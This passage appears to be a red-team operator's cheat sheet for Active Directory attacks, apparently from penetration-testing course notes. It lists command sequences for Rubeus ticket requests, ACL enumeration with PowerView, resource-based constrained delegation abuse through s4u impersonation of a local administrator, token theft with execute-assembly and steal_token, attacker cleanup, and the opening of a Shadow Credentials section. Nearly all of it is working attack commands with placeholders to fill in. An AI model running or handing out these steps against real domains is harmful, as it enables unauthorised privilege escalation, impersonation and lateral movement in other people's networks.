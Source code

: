 `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:[fqdn] /user:AwesomeSauce$ /password:[password (previous command)]`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:AwesomeSauce$ /aes256:[hash] /opsec /nowrap`
#### RBCD

Requirements
1. target where you can modify `msDS-AllowedToActOnBehalfOfOtherIdentity`
2. control of a principal that has an SPN (e.g. computer account)

Check Requirement 1
`powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1`
`powerpick Get-DomainSID`

`powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "[domain sid]-[\d]{4,10}" } | fl ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier`
`powerpick ConvertFrom-SID [SecurityIdentifier]`
**SecurityIdentifier** can modify **ObjectAceType** on **ObjectDN** (target)
- **ObjectAceType** should be either **All** or **msDS-AllowedToActOnBehalfOfOtherIdentity**
- if **ObjectAceType** is **msDS-KeyCredentialLink**, see [[#Shadow Credentials]]

[[#Create Computer Object]] (Requirement 2)
*only if you haven't compromised a computer*

Attack
as account that can modify `msDS-AllowedToActOnBehalfOfOtherIdentity`
`powershell Set-ADComputer [target (dn notation)] -PrincipalsAllowedToDelegateToAccount [spn attacker owns]$`
check with `powershell Get-ADComputer [target] -Properties PrincipalsAllowedToDelegateToAccount`

as account with SPN (computer attacker owns)
see [[#Service Tickets]]
[[#Kerberos Tickets]] get TGT
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[machine]$ /impersonateuser:[user (local admin on target)] /msdsspn:[service]/[target] /ticket:[base64] /nowrap`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[domain] /username:[user] /password:FakePass /ticket:[base64 (previous command)]`
`steal_token [pid]`

Cleanup
`powerpick Get-DomainComputer -Identity [machine] | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity`
#### Shadow Credentials
Requires ability to modify `msDS-KeyCredentialLink`

Check Requirement
`powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1`
`powerpick Get-DomainSID`

`powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "[domain sid]-[\d]{4,10}" } | fl ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier`
`powerpick ConvertFrom-SID [SecurityIdentifier]`
**SecurityIdentifier** can modify **ObjectAceType** on **ObjectDN** (target)
- **ObjectAceType** should be either **All** or **msDS-KeyCredentialLink**
- if **ObjectAceType** is **msDS-AllowedToActOnBehalfOfOtherIdentity**, see [[#RBCD]]

